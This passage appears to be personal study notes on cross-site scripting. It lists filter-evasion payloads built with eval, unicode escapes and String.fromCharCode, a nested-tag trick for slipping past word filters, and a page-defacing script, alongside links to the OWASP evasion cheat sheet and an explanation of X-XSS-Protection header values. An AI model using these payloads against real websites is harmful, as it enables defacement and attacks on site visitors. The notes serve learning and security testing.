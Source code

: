 Oval ()
```Terminal
<script>eval('a\u006cert(1)')</script>
<script>eval('al' + 'ert(1)')</script>
<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41))</script>    
```

Word Filter (If some javascript element is filtered)
```Terminal
<scrscriptipt > might become <script>
```

HTML Defacing
```Terminal
<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
```

---

All Information ---> https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

<iframe src="https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html" width="100%" height="1300"></iframe>

--- ---

<h4>General Tools</h4>

- Burpsuite                   ---> [[• Collaborator]]
- Knoxss (online)         ---> https://knoxss.me/wp-login.php
  
--- ---

---
---

`X-XSS-Protection directives#`
A 0 value disables the XSS Filter, as seen below.

`X-XSS-Protection: 0;`
A 1 value enables the XSS Filter. If a cross-site scripting attack is detected, in order to stop the attack, the browser will sanitize the page.

`X-XSS-Protection: 1;`
A 1; mode=block value enables the XSS Filter. Rather than sanitize the page, when an XSS attack is detected, the browser will prevent rendering of the page.

`X-XSS-Protection: 1; mode=block`
